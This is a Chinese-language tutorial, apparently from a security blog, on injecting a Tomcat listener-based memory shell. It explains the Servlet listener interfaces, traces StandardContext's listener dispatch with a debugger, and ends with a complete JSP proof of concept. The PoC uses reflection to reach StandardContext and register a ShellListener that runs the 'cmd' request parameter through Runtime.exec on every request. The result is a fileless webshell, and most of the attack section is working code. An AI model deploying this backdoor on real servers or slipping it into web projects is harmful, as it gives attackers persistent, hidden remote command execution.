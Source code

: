 ## Listener

Listener 可以译为监听器，监听器用来监听对象或者流程的创建与销毁，通过 Listener，可以自动触发一些操作

在应用中可能调用的监听器如下：

- ServletContextListener：用于监听整个 Servlet 上下文（创建、销毁）
- ServletContextAttributeListener：对 Servlet 上下文属性进行监听（增删改属性）
- ServletRequestListener：对 Request 请求进行监听（创建、销毁）
- ServletRequestAttributeListener：对 Request 属性进行监听（增删改属性）
- javax.servlet.http.HttpSessionListener：对 Session 整体状态的监听
- javax.servlet.http.HttpSessionAttributeListener：对 Session 属性的监听

可以看到 Listener 也是为一次访问的请求或生命周期进行服务的，在上述每个不同的接口中，都提供了不同的方法，用来在监听的对象发生改变时进行触发。

ServletRequestListener用于监听ServletRequest对象的，当访问任意资源时，都会触发`ServletRequestListener#requestInitialized()`方法

**实现一个恶意的listener**

```java
package org.example.javaweb;

import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import javax.servlet.annotation.WebListener;
import javax.servlet.http.HttpServletRequest;
import java.io.IOException;

@WebListener
public class ShellListener implements ServletRequestListener {
    @Override
    public void requestInitialized(ServletRequestEvent sre){
        HttpServletRequest request = (HttpServletRequest) sre.getServletRequest();
        String cmd = request.getParameter("cmd");
        if(cmd !=null){
            try {
                Runtime.getRuntime().exec(cmd);
            } catch (IOException e) {
                throw new RuntimeException(e);
            }
        }
    }
    @Override
    public void requestDestroyed(ServletRequestEvent sre){}
}

```

访问任意路由使用对应的参数可以触发

![image-20240703205108067](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240703205108067.png)

将断点下在requestInitialized方法处，看调用栈

![image-20240703205341282](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240703205341282.png)



**StandardContext#fireRequestInitEvent**

![image-20240703210008539](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240703210008539.png)

该方法首先定义了一个instances数组，调用getApplicationEvenListeners()来获取listener对象，后续遍历event，依次调用listerner.requestInitialized解析event

![image-20240703210436316](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240703210436316.png)

跟进到**getApplicationEvenListeners()方法**

![image-20240703210724043](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240703210724043.png)

listener对象存储在该字段当中

通过StandardContext#addApplicationEventListener()来进行listener的添加

![image-20240703211707691](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240703211707691.png)



### POC编写

**获取standardContext对象**

```jsp
<%
    //获取ApplicationContextFaced类
    ServletContext servletContext = request.getSession().getServletContext();
    //反射获取StandardContext,首先获取到ApplicationContextFaced类context属性，为类ApplicationContext的一个对象
    Field appContext = servletContext.getClass().getDeclaredField("context");
    appContext.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appContext.get(servletContext);
    //获取StandardContext
    Field stdContext = applicationContext.getClass().getDeclaredField("context");
    stdContext.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdContext.get(applicationContext);
%>

```

**构造恶意listener**

```java
public class ShellListener implements ServletRequestListener {
    @Override
    public void requestInitialized(ServletRequestEvent sre){
        HttpServletRequest request = (HttpServletRequest) sre.getServletRequest();
        String cmd = request.getParameter("cmd");
        if(cmd !=null){
            try {
                Runtime.getRuntime().exec(cmd);
            } catch (IOException e) {
                throw new RuntimeException(e);
            }
        }
    }
    @Override
    public void requestDestroyed(ServletRequestEvent sre){}
}
```

**最后添加监听器**

```jsp
<%
    ShellListener shellListener = new ShellListener();
    standardContext.addApplicationEventListener(shellListener);
%>
```

**完整poc**

```jsp
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.io.IOException" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%--
  Created by IntelliJ IDEA.
  User: Administrator
  Date: 2024/7/3
  Time: 21:24
  To change this template use File | Settings | File Templates.
--%>
<%
    //获取ApplicationContextFaced类
    ServletContext servletContext = request.getSession().getServletContext();
    //反射获取StandardContext,首先获取到ApplicationContextFaced类context属性，为类ApplicationContext的一个对象
    Field appContext = servletContext.getClass().getDeclaredField("context");
    appContext.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appContext.get(servletContext);
    //获取StandardContext
    Field stdContext = applicationContext.getClass().getDeclaredField("context");
    stdContext.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdContext.get(applicationContext);
%>
<%!
    public class ShellListener implements ServletRequestListener {
        @Override
        public void requestInitialized(ServletRequestEvent sre){
            HttpServletRequest request = (HttpServletRequest) sre.getServletRequest();
            String cmd = request.getParameter("cmd");
            if(cmd !=null){
                try {
                    Runtime.getRuntime().exec(cmd);
                } catch (IOException e) {
                    throw new RuntimeException(e);
                }
            }
        }
        @Override
        public void requestDestroyed(ServletRequestEvent sre){}
    }
%>
<%
    ShellListener shellListener = new ShellListener();
    standardContext.addApplicationEventListener(shellListener);
%>
```

![image-20240703213129811](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240703213129811.png)

效果如上

